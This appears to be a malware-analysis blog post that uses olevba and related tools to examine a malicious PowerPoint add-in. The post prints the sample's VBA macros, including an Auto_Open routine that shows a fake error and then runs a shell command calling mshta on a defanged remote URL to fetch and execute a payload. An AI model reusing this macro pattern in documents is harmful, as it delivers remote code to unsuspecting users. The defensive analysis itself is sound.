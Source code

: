 ```yaml
---
layout: post
title: "Looking at PowerPoint Macros with Olevba"
date: 2022-01-07
categories: malware powerpoint macros mshta olevba
permalink: /powerpoint-macros-olevba/
---
```


In this post I want to walk through analysis of a malicious PowerPoint file using `olevba`. This tool allows you to view macros within Office documents without opening them. If you want to follow along at home, I'm using this sample from MalwareBazaar:

[https://bazaar.abuse.ch/sample/a0f6d9d905b64be221a64da385ad1fd14542c93b35f23cdcbedf71febc68a505/](https://bazaar.abuse.ch/sample/a0f6d9d905b64be221a64da385ad1fd14542c93b35f23cdcbedf71febc68a505/)

## Triaging the File

VirusTotal and MalwareBazaar think the sample is a PowerPoint file with macros, but they could always be wrong. We can confirm using the `file` utility.

```console
remnux@remnux:~/cases/ppt$ file PO04012022.ppam 
PO04012022.ppam: Microsoft PowerPoint 2007+
```

Sure enough, the magic bytes say the file is a PowerPoint presentation. Now let's take a look at the size with `exiftool`.

```console
remnux@remnux:~/cases/ppt$ exiftool PO04012022.ppam 
ExifTool Version Number         : 12.30
File Name                       : PO04012022.ppam
Directory                       : .
File Size                       : 8.6 KiB
File Modification Date/Time     : 2022:01:06 02:01:18-05:00
File Access Date/Time           : 2022:01:05 21:17:11-05:00
File Inode Change Date/Time     : 2022:01:05 21:03:25-05:00
File Permissions                : -rw-r--r--
File Type                       : PPAM
File Type Extension             : ppam
MIME Type                       : application/vnd.ms-powerpoint.addin.macroEnabled.12
Zip Required Version            : 20
Zip Bit Flag                    : 0
Zip Compression                 : Deflated
Zip Modify Date                 : 2022:01:03 23:05:02
Zip CRC                         : 0xb918195e
Zip Compressed Size             : 283
Zip Uncompressed Size           : 597
Zip File Name                   : [Content_Types].xml
```

The file weighs in at under 9 KiB, so I would hazard a guess that it doesn't contain much, if any, embedded content like binaries. Now let's dig in with analysis tools.

## Analyzing the PPAM

We can issue a simple `olevba` command and see the output that comes back by default.

```console
remnux@remnux:~/cases/ppt$ olevba PO04012022.ppam 
olevba 0.60 on Python 3.8.10 - http://decalage.info/python/oletools
===============================================================================
FILE: PO04012022.ppam
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO Class1.cls 
in file: ppt/qwqwae.d - OLE stream: 'VBA/Class1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Public Function lol()
Debug.Assert (VBA.Shell("c:\windows\system32\calc\..\conhost.exe c:\windows\system32\calc\..\conhost.exe mshta hxxp://www.j[.]mp/askswewewewzxzxkd"))
End Function

-------------------------------------------------------------------------------
VBA MACRO Module11.bas 
in file: ppt/qwqwae.d - OLE stream: 'VBA/Module11'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub Auto_Open()
Dim obj As New Class1
Debug.Print MsgBox("ERROR!Re-Install Office", vbOKCancel); returns; 1
obj.lol
End Sub

+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|windows             |May enumerate application windows (if        |
|          |                    |combined with Shell.Application object)      |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |hxxp://www.j[.]mp/asks|URL                                        |
|          |wewewewzxzxkd       |                                             |
|IOC       |conhost.exe         |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

There's a fair bit of information to work through here. Olevba does some analysis work for you to point out suspicious features of the macro code. First, the sample contains macro code defining an `Auto_Open` function. Just like it sounds, whatever is in this function will get executed as soon as the document gets opened. The output shows olevba found possible obfuscated strings, an executable name, and a URL. Looking further back we can see the actual macro code. First, let's take a look at that `Auto_Open` function.

```vb
Sub Auto_Open()
Dim obj As New Class1
Debug.Print MsgBox("ERROR!Re-Install Office", vbOKCancel); returns; 1
obj.lol
End Sub
```

The macro creates an object `obj` of the type Class1, which must also be defined in the macro. It pops up a messagebox (MsgBox) with an error message to distract the victim. Finally, it calls the function `obj.lol()`. Let's dive into Class1 to see what its `lol()` function does.

```vb
Public Function lol()
Debug.Assert (VBA.Shell("c:\windows\system32\calc\..\conhost.exe c:\windows\system32\calc\..\conhost.exe mshta hxxp://www.j[.]mp/askswewewewzxzxkd"))
End Function
```

The `lol()` function uses `VBA.Shell` to launch the command in the provided string. As for the string, I'm not really sure what they're trying to do here. I assume they're going for some form of evasion where they somehow call `mshta.exe` but muddy the water with `conhost.exe` processes during analysis. The sandbox report from [Joe Sandbox](https://www.joesandbox.com/analysis/548357/1/html) doesn't indicate `mshta.exe` actually executed. As for the final payload, the adversary presumably has a HTML Application (HTA) file hosted at `hxxp://www.j[.]mp/askswewewewzxzxkd` and if `mshta.exe` downloads executes the payload it might execute arbitrary script content.

That's it for today, thanks for reading!
